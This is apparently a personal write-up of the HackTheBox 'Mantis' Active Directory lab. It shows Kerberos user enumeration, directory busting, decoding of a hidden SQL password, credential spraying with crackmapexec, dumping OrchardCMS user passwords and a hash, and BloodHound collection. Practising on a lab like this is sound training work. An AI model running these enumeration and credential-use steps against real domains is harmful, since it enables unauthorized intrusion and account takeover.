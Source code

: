 
```
Domain Name: HTB                                                              
Domain Sid: S-1-5-21-4220043660-4019079961-2895681657
```

```
kerbrute userenum -d htb.local --dc 10.10.10.52 userlist.txt -t 100
```

```
james@htb.local
James@htb.local
administrator@htb.local
mantis@htb.local
JAMES@htb.local
Administrator@htb.local
Mantis@htb.local
```

![[Pasted image 20240515233953.png]]


We have to go Old School as this machine is hard and we need a entry point to get into.
We have 2 domain controller and 3 http sites which simply means that we have to do directory busting.

```
http://10.10.10.52:1337/secure_notes/
```


```
gobuster dir -u http://10.10.10.52:1337 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

![[Pasted image 20240516015043.png]]
![[Pasted image 20240516003001.png]]

We already have the valid user names so in short we have the usernames and all we need is a password to get into.


```
1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location.
4. Launch browser and navigate to http://localhost:8080
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user.


Credentials stored in secure format
OrchardCMS admin creadentials 010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001
SQL Server sa credentials file namez
```

If you the file names seems fishy to mee
```
ev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt
```


It's some kind of password
```
6d2424716c5f53405f504073735730726421
```
![[Pasted image 20240516005334.png]]


We got the password of the MS-SQL user.
```
m$$ql_S@_P@ssW0rd!
```
![[Pasted image 20240516005420.png]]

I just want to see if we can login with this into smb but failed
```
crackmapexec smb 10.10.10.52 -u ~root/HackTheBox/Mantis/valid_user.txt -p m$$ql_S@_P@ssW0rd!
```


We have to login into the sql server and i have to find the command for it

Tried this command but it didn't worked
```
mysql -h 10.10.10.52 -P 50255 -u admin -p 'm$$ql_S@_P@ssW0rd!'
```

I have installed a GUI base software to handle this stuff
![[Pasted image 20240516011427.png]]


![[Pasted image 20240516013029.png]]


```
Hostname: 10.10.10.52
Database: orcharddb
Password: m$$ql_S@_P@ssW0rd!
```

It worked finally and i was able to download the database
![[Pasted image 20240516014152.png]]


We got the database we want
![[Pasted image 20240516014208.png]]
Now will search for passwords

Will simply search for Users
![[Pasted image 20240516015532.png]]

Select data and we get the password
```
james@htb.local
```

```
J@m3s_P@ssW0rd!
```

```
admin
```

```
AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==
```

![[Pasted image 20240516015649.png]]


```
crackmapexec smb 10.10.10.52 -u james -p 'J@m3s_P@ssW0rd!' --shares
```
![[Pasted image 20240516015931.png]]

I have not able to get shell with evil-winrm or psexec let's change the approach and try 
ldap and bloodhound.


```
bloodhound-python -d htb.local -u james -p 'J@m3s_P@ssW0rd!' -ns 10.10.10.52 -c all 
```
![[Pasted image 20240516022525.png]]

![[Pasted image 20240516025002.png]]

![[Pasted image 20240516025022.png]]

